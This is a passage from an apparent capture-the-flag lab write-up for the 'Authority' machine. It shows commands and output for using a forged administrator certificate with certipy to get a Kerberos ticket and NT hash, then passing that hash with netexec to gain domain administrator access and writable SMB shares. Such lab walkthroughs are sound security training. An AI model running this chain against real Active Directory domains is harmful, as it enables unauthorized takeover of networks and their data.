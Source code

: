 We can try to use `certipy` with this `.pfx` certificate file to request a Kerberos TGT as the
domain `Administrator`. If everything goes right the tool will perform a Kerberos U2U (User-to-User authentication) for us and decrypt the NT hash from the Privilege Attribute Certificate (PAC) and we will then be able to use the NT hash to pass-the-hash and obtain administrator access.

`certipy-ad auth -pfx ./administrator.pfx`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
❌

`sudo ntpdate 10.10.11.222`:
```
2024-11-07 10:38:06.330056 (-0500) +14395.862512 +/- 0.033833 10.10.11.222 s1 no-leap
CLOCK: time stepped by 14395.862512
```

`certipy-ad auth -pfx ./administrator.pfx`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@authority.htb': aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed ←
```

`netexec smb 10.10.11.222 -u 'Administrator' -H '6961f422924da90a6928197429eea4ed'`:
```
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\Administrator:6961f422924da90a6928197429eea4ed (Pwn3d!) ←
```

`netexec smb 10.10.11.222 -u 'Administrator' -H '6961f422924da90a6928197429eea4ed' --shares`:
```
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\Administrator:6961f422924da90a6928197429eea4ed (Pwn3d!)
SMB         10.10.11.222    445    AUTHORITY        [*] Enumerated shares
SMB         10.10.11.222    445    AUTHORITY        Share           Permissions     Remark
SMB         10.10.11.222    445    AUTHORITY        -----           -----------     ------
SMB         10.10.11.222    445    AUTHORITY        ADMIN$          READ,WRITE ←     Remote Admin
SMB         10.10.11.222    445    AUTHORITY        C$              READ,WRITE      Default share
SMB         10.10.11.222    445    AUTHORITY        Department Shares READ,WRITE      
SMB         10.10.11.222    445    AUTHORITY        Development     READ,WRITE      
SMB         10.10.11.222    445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.10.11.222    445    AUTHORITY        NETLOGON        READ,WRITE      Logon server share 
SMB         10.10.11.222    445    AUTHORITY        SYSVOL          READ,WRITE      Logon server share
```
